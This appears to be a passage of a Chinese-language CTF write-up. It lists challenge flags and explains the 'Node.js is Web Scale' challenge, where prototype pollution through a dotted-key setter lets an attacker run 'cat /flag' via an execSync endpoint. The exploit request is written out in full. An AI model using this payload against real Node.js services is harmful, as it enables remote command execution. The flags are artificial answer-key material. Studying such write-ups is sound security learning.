 `flag{1-@m-th3-HaCK3r-K1nG-Of-c0mParinG-nUmbERs-zoZ4}`

## Node.js is Web Scale

观察这东西的源代码：

```js
// POST /set - Set a key-value pair in the store
app.post("/set", (req, res) => {
  const { key, value } = req.body;

  const keys = key.split(".");
  let current = store;

  for (let i = 0; i < keys.length - 1; i++) {
    const key = keys[i];
    if (!current[key]) {
      current[key] = {};
    }
    current = current[key];
  }

  // Set the value at the last key
  current[keys[keys.length - 1]] = value;

  res.json({ message: "OK" });
});
// ...省略
app.get("/execute", (req, res) => {
  const key = req.query.cmd;
  const cmd = cmds[key];
  res.setHeader("content-type", "text/plain");
  res.send(execSync(cmd).toString());
});
```

一眼丁真（`current = current[key];`），鉴定为原型链污染。

可以通过给 `__proto__` 赋值上一个属性然后让 `cmd` 对象也有这个属性，然后通过访问 `/execute` 就可以获取 flag 了。

SET `{key: "__proto__.qwq", value: "cat /flag"}`

然后访问 `/execute?cmd=qwq` 就可以了。

`flag{n0_pr0topOIl_50_U5E_new_Map_1n5teAD_Of_0bject2kv_caeee19838}`

## 喜欢做签到的 CTFer 你们好呀

### Checkin Again & Again

进入 https://www.nebuu.la/

这个 shell 好好玩wwww
